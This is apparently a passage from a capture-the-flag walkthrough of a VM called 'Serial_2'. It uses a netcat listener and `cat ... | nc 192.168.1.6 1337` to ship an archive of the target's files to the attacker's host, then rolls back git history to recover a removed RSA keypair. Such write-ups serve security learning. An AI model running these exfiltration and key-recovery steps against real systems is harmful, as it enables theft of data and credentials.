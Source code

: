 !["local_listener"](/Serial_2/Xq0aYQaGvXO8jBa4xXmRspLTKx6YJeKGaIhThPPFtJxp6QZ7sZwo-9p6u3JDKeaa1cV4GSmXytyV87O5oF3l63ZQPdFTE68_LjY_kn2WP5BJHMDOmbHB5gA50eJcMUxa9InNUlPPK-_WZ7_A5A.dat)
_Listener on local host._

!["connect_listener"](/Serial_2/J3p_t5lO-DvxtiRC4h2PAqcOca6TiULuaN2FHy3hfnwx4mqPoN4x2OrboYDqitRAgR1mLV0uZNAhu8UBod6gPWDDybCvgdkqA0qBPeRITsDiqYq6V-IQYBGD1Sp_lk-GEGHVNGFkbj66npXCSA.dat)
_Connect to the listener._

We pack everything inside the VM and fetch it to our local host for further analysis.

Run `tar -czvf serial2.tar.gz *`

Format: `tar -czvf FILE *`

!["tar"](/Serial_2/ZUShaAIjtmAsWKoEkpd5v6S1LTLj1F68LzCvxeqhoV9fPPfyjzcN-78l_I4Ts3oQb_KLpfZlWYvBicOC4FvVkTL5nA-W9toTO87va8dfg5FFyQd_q4S28I3C5eYZg8eJ8aVdAUCw.png)
_tar all contents._

Start a new listener on a different port and redirect all the data received on it into a file.

Run `nc -nlvp 1337 > serial2.tar.gz`

Format: `nc -nlvp NewPORT > FILENAME`

!["local_listener"](/Serial_2/GUTZ4WnglKqrfCZbvBsDQZNhX-kDwOemheRlfVMKmETVgOB6bGIYsF4Do4OnNYV5fQ_jIbOe0ohaAC37WWpRUTGAnarRMe9QIVNiaPWuxqEoPl5gJvMORm2Z1oeQTOflUN_5FnsccRuMf5AW8A.dat)
_Pipe all input from the listener to file._

Pipe all bytes from the file into the listener.

Run `cat serial2.tar.gz | nc 192.168.1.6 1337`

Format: `cat FILE | nc LHIP NewPORT`

!["connect_listener"](/Serial_2/s8HdLB48dPURowb5aSbZkWXSWhnp9ZsG98jCJupqefo1qqezBX21XlMdLmI5f4VB92RLPYYc2nWd4J31-fiHzF8hAL9BqJRMbHU_iKGGgT-JMCd0uQHAz5s_X7rVvW201c-vUa6woPIkZcNLVA.png)
_Send all bytes of the file to the listener._

Exploring all the files, we spot a .git folder.

Instinctively, we check the git log.

Run `git log`

!["git_log"](/Serial_2/Epy59D1WxRBj_CWmWz2fAL41lpbsrt1nt6tWpEXlw-qbT4hh_wrlDBK8CZwjgE4hrnxAbqaaCteI8LxWsX3l-MoYalO1J9MCfMciZyQf2C_YcbZkOGsHBIA0W4UYDj6q4jiE9Ddu9jzqbneYTQ.png)
_Output of git log._

The commit message straight up implies that some keys have been removed.

We therefore check the state of the files before this commit. This means rolling back to the previous commit. 

Run `git checkout b039a4207810e47cde90db811661217af2bc67c3`

!["git_checkout"](/Serial_2/C2GCkwoXPhPVpC0H24HrAexqs_ubqs7_UaRff_Vhg07KaAyRaHKgWajajasXE1804ytCpQDW7JtbRuQSg0hrjq5v7yh9KmKLUrIu9t06WCYQz4o2VvJPFHfeYXrrtU7DsIMGQJnIgnULPVx1uw.dat)
_Rolling back to the commit whose hash was specified._

Looking around, I spot a RSA keypair.

!["rsa_keypair"](/Serial_2/miV283IclOl-rWur5f2jWFnIzW2pD2vFw4deSXHu8SOiSylfqU1mwIIlj1ZStiMtBI1pmgqAwDlVmMu4u6XZ5UJbH-hJwdJoXcPhcp8gkd8OvQVbaNrDyZFn-KFGbA0firobBZV2C3j7LUlnWA.dat)
_RSA keypair spotted._
